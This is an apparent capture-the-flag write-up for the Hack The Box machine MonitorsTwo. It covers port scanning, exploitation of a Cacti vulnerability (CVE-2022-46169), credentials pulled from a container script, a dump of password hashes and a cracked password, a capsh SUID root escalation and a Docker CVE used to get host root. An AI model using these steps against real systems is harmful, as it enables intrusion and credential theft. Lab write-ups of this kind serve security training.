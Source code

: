 # Monitors Two HTB


## Scanning

Performing a simple but strongest port enumeration

```bash
sudo nmap -sS --open -p- --min-rate=5000 -vvv -n -Pn 10.10.11.211 -oG enumeration/AllPorts



PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```
So in this point we have two ports, it's not difficult copy one by one, so I share my python script yo automate this task

```python
#!/usr/bin/python3

"""
    simple tool to get in the clipboard
    the capture of the ports early stored
    in a simple file when you executed the 
    scanning with nmap and creating a -oG file

    :author: Arturo Negreiros 
"""

import os
import sys
import re
import subprocess

def main():

    try:
        with open(sys.argv[1], "r") as file:
            data = file.read()

        allport = re.findall(r'\d{1,5}/open', data)
        ports = [re.search(r'\d{1,5}', x).group() for x in allport]
        ports = ",".join(ports)
        subprocess.Popen(f"echo {ports} | tr -d '\n' | xclip -sel clip", stdout=subprocess.PIPE, shell=True)
        print(f"\n[*] Ports in the clipboard {ports}")
        exit(0)

    except Exception as e:
        print("""usage
        \n\t\t extractPorts.py <path file of nmap grepeable format>
        """)
        print(f"\n[x] Error by {str(e)}")
    except KeyboardInterrupt:
        print("\n[!] Exiting...")


if __name__ == "__main__":
    main()
```

With this script, even if you have hundreds of ports, just by using it,
you will have them all on your clipboard.


```bash
❯ sudo nmap -sCV -p22,80 10.10.11.211
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-21 11:20 -05
Nmap scan report for 10.10.11.211
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Login to Cacti
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.78 seconds
```

## Enumeration
Searching in the browser, we see a login panel callig for "cacti groups"
and in the whatweb command line we get

```bash
❯ whatweb "http://10.10.11.211/logout.php?action=timeout"
http://10.10.11.211/logout.php?action=timeout [200 OK] Cookies[Cacti,cacti_remembers], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], HttpOnly[Cacti,cacti_remembers], IP[10.10.11.211], JQuery, PHP[7.4.33], Script[text/javascript], Title[Logout of Cacti], UncommonHeaders[content-security-policy], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/7.4.33], X-UA-Compatible[IE=Edge], nginx[1.18.0]
```

A quick search in google we got the following vulnerability for cacti 1.2.22 **CVE-2022-46169-CACTI-1.2.22**

Performing a reverse shell <monitorstwo_reverse_shell.png>

After a revershell we see in the "/" directory a entrypoint.sh

```bash
www-data@50bca5e748b0:/$ cat entrypoint.sh 
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"
www-data@50bca5e748b0:/$ 
```

using that credentials, we connect to the database

```bash
mysql --host=db --user=root --password=root
```

Connecting to the database and the database cacti and the table user_auth, we get some password hashes

```mysql
MySQL [cacti]> select id, username, password from user_auth;
+----+----------+--------------------------------------------------------------+
| id | username | password                                                     |
+----+----------+--------------------------------------------------------------+
|  1 | admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |
|  3 | guest    | 43e9a4ab75570f5b                                             |
|  4 | marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |
+----+----------+--------------------------------------------------------------+
3 rows in set (0.001 sec)

MySQL [cacti]> 
```

crackig for marcus::funkymonkey
We can perform a ssh login and get the flag 

```bash
marcus@monitorstwo:~$ cat user.txt 
46a7f3e426bac7959fabcd6c50a1cc2d
```



## Exploitation
Before to perform privilge scalation in the server
we have to check the SUID permissions in the containers


```bash
www-data@50bca5e748b0:/$ find -perm -4000 2>/dev/null
./usr/bin/gpasswd
./usr/bin/passwd
./usr/bin/chsh
./usr/bin/chfn
./usr/bin/newgrp
./sbin/capsh ✅
./bin/mount
./bin/umount
./bin/su
```

Performing a SUID privilege escalation

```bash
capsh --gid=0 --uid=0 --
```
with this we get the shell as root but in the container
```bash
root@50bca5e748b0:/root# whoami
root
root@50bca5e748b0:/root# 
```

Once we keep in mind this proccess, we saw in the ssh login a message saying "we have a new email"

inside the directory

```bash
marcus@monitorstwo:/var/mail$ cat marcus 
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team
```

Checking for the vulnerability **CVE-2021-41091**, we get a github repo, to use that CVE vulnerability but to perform this CVE, you first have to 
be changed the SUID /bin/bash when you got the root inside the container.

Run the exploit and voilà, you got root in the ssh session.

Happy hacking.
<>



## Final Review
